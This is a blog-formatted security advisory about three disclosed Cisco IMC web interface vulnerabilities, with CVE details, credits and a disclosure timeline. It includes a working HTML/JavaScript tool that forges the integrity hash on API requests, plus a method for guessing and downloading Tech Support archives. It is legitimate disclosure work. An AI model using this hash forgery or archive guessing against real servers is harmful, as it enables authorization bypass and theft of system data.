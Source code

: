 ```yaml
---
layout: post
title: 'Cisco IMC Server: Multiple Vulnerabilities'
excerpt_separator: "<!--more-->"
categories:
  - "cve-advisory"
tags:
  - "web application"
  - cisco
  - "imc server"
last_modified_at: 2021-12-24T14:44:00
---
```


{% include note.html content="This advisory was originally published on [F-Secure LABS](https://labs.f-secure.com/advisories/cisco-imc-server-multiple-vulnerabilities/)" %}

<!-- {% include toc.html %} -->
<!-- Again, TOC messes things up -->

Several vulnerabilities were discovered by F-Secure Consulting in the Cisco Integrated Management Controller (IMC) web application (CVE-2020-26062, CVE-2020-26063 and CSCvv07284). An example datasheet of the product can be found [here](https://www.cisco.com/c/en/us/products/collateral/servers-unified-computing/ucs-b-series-blade-servers/data_sheet_c78-728802.html).

The vulnerabilities combined can be leveraged to enumerate users and bypass authorisation controls. 

<!--more-->

## Vulnerabilities Discovered

Three security issues were identified affecting the IMC application version 4.0(4h) and potentially other versions. The complete range of products affected can be found on the relevant Cisco Pages:

* Cisco Integrated Management Controller Software Username Enumeration Vulnerability<br/>[https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-cimc-enum-CyheP3B7](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-cimc-enum-CyheP3B7)

* Cisco Integrated Management Controller API Request Hash Modification<br/>[http://bst.cloudapps.cisco.com/bugsearch/bug/CSCvv07284](http://bst.cloudapps.cisco.com/bugsearch/bug/CSCvv07284)

* Cisco Integrated Management Controller Software Authorization Bypass Vulnerability<br/>[https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-cimc-auth-zWkppJxL](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-cimc-auth-zWkppJxL)


### Username Enumeration
> CVE-2020-26062 - CVSSv3.1 Score: 5.3

The Username Enumeration vulnerability was discovered within the log in page of the IMC web interface. In its default configuration, there is no account lockout threshold enforced; offering the opportunity for an adversary to brute-force enumerated accounts.


### Integrity Hash Forgery
> CCSCvv07284 - CVSSv3.1 Score: 3.1

Once authenticated to the application communications with the server consist of HTTP POST requests sent to a set of XML-based APIs. These API calls use an integrity protection scheme. User supplied parameter values are hashed and the resulting value is placed in the `CPSG_VAR HTTP` header. The hashing functionality is implemented in client-side JavaScript. 

The JavaScript hashing code was re-implemented in the form of an an HTML page. The source code is presented below:

```html
<html>
 <body>
   <head>
       <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.0.0/crypto-js.min.js"></script>   
       <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.0.0/hmac-sha256.min.js"></script>       
       <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.0.0/enc-base64.min.js"></script>  
   </head>

   <script>
     function invoke(){
       var sessionCookie = document.getElementById('sessionCookie').value
       var sessionID = document.getElementById('sessionID').value
       var queryStringURL = document.getElementById('queryString').value 
       var queryString = decodeURIComponent(decodeURIComponent(queryStringURL))
       var hash = hashFnv32(sessionID,queryString)      
       document.getElementById('output').innerHTML = hash
       document.getElementById('http').innerHTML = `
       POST /data HTTP/1.1<br>
       Host: <IPaddress><br>
       Referer: https://<IPaddress>/index.html<br>
       CSPG_VAR: ` + hash + `<br>
       Content-Type: application/x-www-form-urlencoded<br>
       Cookie: username=; sessionCookie=` + sessionCookie +`<br>
       Content-Length: 105<br><br>
       sessionID=`+sessionID+`&queryString=`+queryStringURL+`<br>`
    }

     function hashFnv32(a, b) {
           console.log("hashFnv32("+a+","+b+") called") 
           var d, e = 40389;
           var g = Math.floor(a.length / 4);
           for (d = 0; d < g; d++) e ^= a.charCodeAt(d), e += e << 1;
           a = e.toString();
           var ret = CryptoJS.HmacSHA512(b,a).toString()
           console.log("hashFnv32 returns "+ ret)
           return ret
      }
   </script>


   <form action="#">
     <p>sessionCookie</p>
     <input type="text" id="sessionCookie" />
     <p>sessionID</p>
     <input type="text" id="sessionID" />
     <p>queryString (double urlencoded)</p>
     <input type="text" id="queryString" />
     <input  type="button" value="Hash!" />
   </form>
   <div id="output"></div>
   <br><br>
   <div id="http"></div>
 </body>
</html>
```

The screenshot below illustrates its use to generate valid requests that will pass integrity checks.

![](/assets/img/cisco-imc-hash-forgery.png)


### Authorization Bypass
> CVE-2020-26063 - CVSSv3.1 Score: 5.4

Authorisation checks were improperly configured and/or found to be missing on 2 of the IMC API endpoints. It is possible to forge a request using the Integrity Hash Forgery (CCSCvv07284) issue that results in the execution of functionality that is not normally available to some users, such as those with "read-only" roles, for example the "ping" and "set SSH server banner" functions.

The application also supports the generation of "Tech Support" archives by administrator users. The archives contain configuration files, detailed runtime logs and full directories from the server’s filesystem. If the filename can be 'guessed' it can be downloaded directly e.g. `/data/saveTechSupportWithHostname(<imc-hostname>-20200714-161002.tar.gz)`. The file is generated in a predictable format: `[IMC hostname]-[YYYYMMDD]-[HHMMSS].tar.gz`. Once the file is requested it is immediately deleted from the server, limiting the attacker’s window of opportunity. 


## Credit

The issues were discovered by Leonidas Tsaousis ([@laripping](https://twitter.com/laripping)) and Thomas Large of F-Secure Consulting.



## Timeline

| Date |	Summary |
| ---- |  ------- |
| 20/07/2020 | Issues disclosed to Cisco PSIRT | 
| 20/07/2020 | Cisco PSIRT acknowledged receipt of the report | 
| 05/08/2020 | Cisco triaged and reproduced the issues |
| 28/09/2020 | Confirmation of remediation plan, agreement of join disclosure date |
| 04/11/2020 | Joint disclosure by Cisco and F-Secure, Advisory released |
